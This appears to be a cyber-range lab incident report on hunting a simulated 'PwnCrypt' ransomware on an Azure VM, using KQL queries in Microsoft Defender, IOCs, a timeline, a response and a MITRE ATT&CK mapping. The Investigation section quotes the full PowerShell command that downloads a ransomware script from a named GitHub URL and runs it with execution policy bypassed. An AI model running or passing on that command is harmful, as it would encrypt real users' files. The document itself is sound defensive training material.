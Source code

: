 

# Zero-Day Ransomware (PwnCrypt) Outbreak Project 
## 🛡️ Incident Report: PwnCrypt Ransomware Detection and Containment

# Objective:
Identify any suspicious zero-day PwnCrypt ransomware infection, isolate the affected system, and prevent lateral movement within the corporate network.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [1. Summary](#1-summary)
- [2. Preparation](#2-preparation)
- [3. Data Collection](#3-data-collection)
- [4. Data Analysis](#4-data-analysis)
- [5. Investigation](#5-investigation)
- [6. Response](#6-response)
- [7. MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
- [8. Lessons Learned / Improvement:](#8-lessons-learned--improvement)
- [9. Final Status](#9-final-status)
---



## 1. Summary
Incident Title: PwnCrypt Ransomware Detection and Containment <br />
Date Identified: June 21, 2025 <br />
Reported By: Security Operations Team <br />
Affected Asset: fe-vmlab (Windows Endpoint) <br />
Investigator: Fe Esguerra <br />
Severity: High <br />


## 2. Preparation
### Goal:
A newly identified ransomware variant known as PwnCrypt has been reported in the wild. This strain uses a PowerShell-based payload to encrypt files on compromised systems with AES-256 encryption. It specifically targets directories such as C:\Users\Public\Desktop, appending a .pwncrypt tag to file names (e.g., hello.txt becomes hello.pwncrypt.txt). Due to the potential risk of this ransomware spreading within the corporate environment, the CISO has requested a proactive investigation across the organization’s systems.


### Hypothesis:
Given the organization's relatively immature security posture—particularly the lack of user awareness training—there is a credible concern that the ransomware may already be present within the network. The investigation should begin by searching for known indicators of compromise (IOCs), such as files containing the .pwncrypt string in their names.


## 3. Data Collection
### Data Sources Queried:
#### DeviceFileEvents
```kql
DeviceFileEvents
| take 20
```
![zero1](https://github.com/user-attachments/assets/e8264fa2-66b3-471d-ac3f-9c84f497029d)

```kql
DeviceFileEvents
| where DeviceName == "fe-vmlab"
| order by Timestamp desc 

```
![zero2](https://github.com/user-attachments/assets/45932041-4d9e-4f3b-b0f9-536382eee67c)



## 4. Data Analysis

#### DeviceFileEvents
```kql
let VMName = "fe-vmlab";
DeviceFileEvents
| where DeviceName == VMName
| where FileName contains "_pwncrypt"
| order by Timestamp desc
```
![zero3](https://github.com/user-attachments/assets/2e9ec255-02cb-494c-b0e4-96ceb414648f)

#### DeviceProcessEvents
```kql
let VMName = "fe-vmlab";
let specificTime = datetime(2025-06-21T17:21:52.5530575Z);
DeviceProcessEvents
| where DeviceName == VMName
| where Timestamp between ((specificTime - 3m) .. (specificTime + 3m))
| order by Timestamp desc

```

![zero4](https://github.com/user-attachments/assets/c05a2b44-f070-4ef9-9dee-fffab6fe2fd5)

#### Findings

Upon reviewing the PowerShell script, it was observed that it performs the following actions:

- Downloads another PowerShell script from a GitHub repository

- Saves the downloaded script to C:\ProgramData\pwncrypt.ps1

- Executes the script while bypassing the system’s configured execution policy

![zero5](https://github.com/user-attachments/assets/2d747650-a6d6-4b26-9e0f-77b94ef44264)



## 5. Investigation

### Initial Discovery
•	Source of Threat: PowerShell command run locally on the host:
```ps
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
```

### Observed Behavior: Files on the desktop were encrypted with _pwncrypt added to their names (e.g., report.docx_pwncrypt.docx).
#### Indicators of Compromise (IOCs)
-	File name patterns: *pwncrypt*
-	Command-line execution from PowerShell
-	Location: C:\ProgramData\pwncrypt.ps1
-	Network activity: None observed during encryption window
####  Timeline of Events
Time (UTC)	Event
17:21:52	.pwncrypt file detected in DeviceFileEvents
±3 mins	PowerShell script downloaded and executed from GitHub
Immediate	Files began being encrypted and renamed
Shortly after	Host fe-vmlab was isolated from the network



## 6. Response
### Actions Taken:

- Isolated the host from the network. 
- Reimaging of the affected endpoint.


## 7. MITRE ATT&CK Mapping

- T1059.001 – PowerShell  
- T1204.002 – User Execution: Malicious File  
- T1105 – Ingress Tool Transfer  
- T1486 – Data Encrypted for Impact  
- T1005 – Data from Local System  
- T1036 – Masquerading (potential)  
- T1027 – Obfuscated Files or Information (potential)


## 8. Lessons Learned / Improvement: 

Review PowerShell execution policies and endpoint monitoring rules

## 9. Final Status

Threat Contained: ✅

Device Isolated: ✅

Device Action: Ticket submitted for full rebuild





